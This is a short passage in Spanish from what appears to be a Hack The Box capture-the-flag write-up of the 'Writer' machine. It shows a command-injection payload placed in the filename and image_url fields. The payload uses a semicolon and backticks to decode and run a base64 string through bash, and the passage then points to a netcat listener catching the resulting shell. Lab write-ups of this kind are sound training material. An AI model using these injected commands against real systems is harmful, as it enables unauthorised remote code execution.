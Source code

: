  - ```;`echo [TU_CADENA_EN_BASE64]|base64 -d|bash` ```

<p align="center">
<img src="/assets/images/htb-writeup-writer/img37.png">
</p>

> Es importante ingresar el mismo comando a ejecutar, tanto en el campo ```filename``` como en ```image_url``` haciendo uso del wraper ```file://``` tal que así:
> ```file:///var/www/writer.htb/writer/static/img/imagen.jpg;`echo [TU_CADENA_EN_BASE64]|base64 -d|bash` ```

Y si vemos nuestro listener

<p align="center">
<img src="/assets/images/htb-writeup-writer/nc.png">
</p>
